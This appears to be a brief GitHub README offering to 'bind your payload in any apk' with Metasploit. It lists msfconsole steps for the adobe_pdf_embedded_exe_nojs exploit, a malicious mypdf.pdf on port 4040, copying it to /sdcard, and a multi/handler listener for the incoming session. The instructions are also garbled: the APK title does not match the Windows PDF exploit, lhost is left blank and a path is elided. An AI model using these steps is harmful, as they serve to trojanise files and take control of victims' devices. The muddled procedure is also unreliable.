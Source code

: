 
# Metasploit-Payload-apk-binder-

bind your payload in any apk
through metasploit 
msf venom
msfconsole
use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs  set lhost  set lport 4040  set filename mypdf.pdf  exploit  $ mv -v .......... /sdcard  msfconsole   use exploit/multi/handler  
set lhost  
set lport 
exploit
